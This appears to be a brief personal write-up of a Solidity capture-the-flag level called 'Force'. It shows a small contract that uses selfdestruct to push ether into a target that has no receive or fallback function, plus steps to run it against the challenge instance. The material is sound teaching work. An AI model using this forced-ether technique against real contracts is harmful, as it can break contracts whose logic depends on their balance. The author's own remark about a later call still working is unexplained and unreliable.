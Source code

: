 ## Force

1. I never tried to force send eth in any contract that does not have receive() or fallback() but it can be done using selfdestruct(). Maybe I heard this from austin griffith... i don't remember

> Code :

```solidity
contract ForceSend {
    receive() payable external {}

    function funcAttack(address _newO) public {
        selfdestruct(payable(_newO));
    }
}
```

2. First send some eth in ForceSend using your metamask and then call the funcAttack with the challenge instance Address.

> Note: I passed the challenge but i tried calling funcAttack() again and it is working even after self destruct i wonder why... reference again

3. success
